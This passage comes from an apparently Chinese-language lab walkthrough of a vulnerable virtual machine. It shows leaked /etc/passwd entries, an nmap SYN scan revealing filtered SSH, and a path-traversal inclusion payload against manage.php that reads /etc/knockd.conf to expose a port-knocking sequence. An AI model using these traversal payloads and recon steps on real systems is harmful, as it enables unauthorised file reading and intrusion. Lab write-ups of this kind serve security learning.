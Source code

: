     joeyt:x:1010:1010:Joey Tribbiani:/home/joeyt:/bin/bash 
    rachelg:x:1011:1011:Rachel Green:/home/rachelg:/bin/bash 
    rossg:x:1012:1012:Ross Geller:/home/rossg:/bin/bash 
    monicag:x:1013:1013:Monica Geller:/home/monicag:/bin/bash 
    phoebeb:x:1014:1014:Phoebe Buffay:/home/phoebeb:/bin/bash 
    scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash 
    janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash 
    janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash 
    ```
    
    可以看到用户是`UserDetails`表内的用户，密码可能就是`SSH`登录的密码，虽然扫描不到`SSH`，但是可能还是存在的
    

## **隐藏的SSH**

1. 我们重新扫描一下端口
    
    一开始我们使用的是：`nmap -sT -min-rate 10000 -p- 192.168.75.180` 即建立完TCP链接后才表示有该端口
    
    我们重新使用：`nmap -sS -min-rate 10000 -p- 192.168.75.180` 即在建立TCP前的三次握手协议中的第一步，我们发送一个SYN包看对方是否回复，`SYN/ACK`表示端口在监听 (开放)， 该端口就被标记为被过滤`filtered`
    
    ```python
    nmap -sS -min-rate 10000 -p- 192.168.75.180
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 13:45 CST
    Nmap scan report for 192.168.75.180
    Host is up (0.00011s latency).
    Not shown: 65533 closed tcp ports (reset)
    PORT   STATE    SERVICE
    22/tcp filtered ssh
    80/tcp open     http
    MAC Address: 00:0C:29:41:E1:8F (VMware)
    ```
    
    重新扫描后可以看到`SSH`端口是被过滤`filtered` 状态的，所以可能就是存在`SSH`的，但是被防火墙过滤了
    
2. 一般隐藏`SSH`是通过`Knockd`
    
    > https://www.cnblogs.com/guangdelw/p/18402272
    > 
    
    `Knockd` 的配置文件在`/etc/knockd.conf` ，我们包含确定是否是`Knockd`
    
    ```python
    /manage.php?file=../../../../etc/knockd.conf
    ```
    
    成功包含！也就是说通过`Knockd`来隐藏了`SSH`服务
    
    ```python
    File does not exist
    [options] 
    	UseSyslog 
    [openSSH] 
    	sequence = 7469,8475,9842 
    	seq_timeout = 25 
    	command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT 
    	tcpflags = syn 
    [closeSSH] 
    	sequence = 9842,8475,7469 
    	seq_timeout = 25 
    	command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT 
    	tcpflags = syn 
    ```
    
